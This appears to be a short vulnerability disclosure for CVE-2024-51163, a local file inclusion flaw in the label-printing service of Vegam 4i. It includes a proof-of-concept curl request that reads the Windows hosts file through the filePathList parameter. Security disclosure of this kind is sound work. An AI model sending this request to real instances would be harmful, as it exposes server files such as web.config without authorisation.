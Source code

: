 # CVE-2024-51163
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability via the filePathList parameter, allowing a malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.

# Affected Product & Version
Vegam 4i <=6.3.47.0

# PoC
cURL command:
```
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} $'https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip'
```

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security team.
